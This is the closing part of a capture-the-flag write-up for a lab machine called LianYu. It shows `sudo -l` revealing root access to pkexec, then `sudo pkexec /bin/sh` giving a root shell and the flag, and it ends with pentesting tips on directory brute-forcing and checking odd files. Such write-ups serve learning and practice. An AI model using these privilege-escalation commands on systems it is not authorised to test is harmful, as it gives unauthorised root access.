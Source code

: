 

### Privilege Escalation

8. ##### root.txt

Now, the final task is to escalate our privileges and gain root access to obtain the root  flag. One of the basic steps that we can take for privesc is to see which commands can we run as root. This can be found out using the command `sudo -l`.

```
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

Here, we can see that we can run the `pkexec` command with root privileges. The next thing that we can do is go to [GTFOBins](https://gtfobins.github.io/) and look for any privesc method using this command.

```
slade@LianYu:~$ sudo pkexec /bin/sh
# whoami
root
# pwd
/root
# cat root.txt
```

And there we go! We got the root flag as well and completed the room!



## Some Key Points to Take Away

1. Bruteforce directories recursively.
2. If you find any odd file extension, run a directory bruteforce scan for that file extension.
3. Keep a record of all the values that you find as they might be required in further stages of pentesting.
4. If you find an odd file, check it with `binwalk`, `file` and it's magic number.